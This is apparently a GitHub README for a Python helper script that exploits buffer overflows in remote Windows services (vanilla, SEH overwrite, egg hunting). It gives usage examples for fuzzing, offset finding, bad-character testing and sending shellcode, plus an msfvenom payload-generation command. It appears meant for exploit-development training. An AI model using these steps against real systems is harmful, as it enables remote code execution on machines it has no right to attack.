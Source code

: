 # Buffer-Overflow

## ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig_buffer_overflow.py test remoteHost remotePort buffSize buffHead
./ig_buffer_overflow.py test 10.2.31.155 2050 4096 'cmd /.:/'
```

cyclic - Sends cyclic string to help identify memory positions
```
./ig_buffer_overflow.py cyclic remoteHost remotePort buffSize buffHead
./ig_buffer_overflow.py cyclic 10.2.31.155 2050 4096 'cmd /.:/'
```

write - Writes hex value to buffer offset
```
./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809
```

write - Write badchars (before or after offset content) for badchar verification
```
./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent badAfter excludeChars
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809 badAfter 000a

./ig_buffer_overflow.py write remoteHost remotePort buffSize buffHead offset hexcontent badBefore reverseJmpSize excludeChars
./ig_buffer_overflow.py write 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809 badBefore 800 000a
```

exploit - Sends malicious payload via buffer overflow
```
./ig_buffer_overflow.py exploit remoteHost remotePort buffSize buffHead offset hexcontent reverseJmpSize shellCodeFile [nops]
./ig_buffer_overflow.py exploit 10.2.31.155 2050 4096 'cmd /.:/' 1203 0A62F809 800 payload 2
```

## Parameters:
* [mode] : Script modes: test|cyclic|write|exploit
* remoteHost : Remote host IP.
* remotePort : Remote host port.
* buffSize : Amount of variable bytes to send.
* buffHead : Static buffer string set at the beginning of the buffer. Is usually the crash string. Size is considered in buffSize calc.
* offset : Place in buffer where content can be added.
* hexcontent	: Hex string to add at the offset position. Can be considered as big endian (default) or little endian (will be reversed). Use 'g' or 'l' to delimit the order. Examples:
  * 'g01020304l05060708' --> will send '0102030408070605'
  * '01020304' --> will send '01020304'
* bad* : Adds bad chars before (badBefore) or after (badAfter) the content. Used for bad char testing.
* excludeChars : List of chars (formatted as hex string) to be excluded from badchar list. Example: 000a excludes badchars '00' and '0a'.
* reverseJmpSize : Size in bytes to jump before the content to inject bad chars or the shell code.
* shellCodeFile : Python shell code file generated using msfvenom. Do NOT include the .py extension in the parameter.
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f python -v payload EXITFUNC=thread -o shellCodeFile
* nops : Amount of nops to add before and after the shell code. Default is 0.

## Vanilla Buffer Overflow example

TODO

## SEH Overwrite example

TODO

## Egg Hunting example

TODO
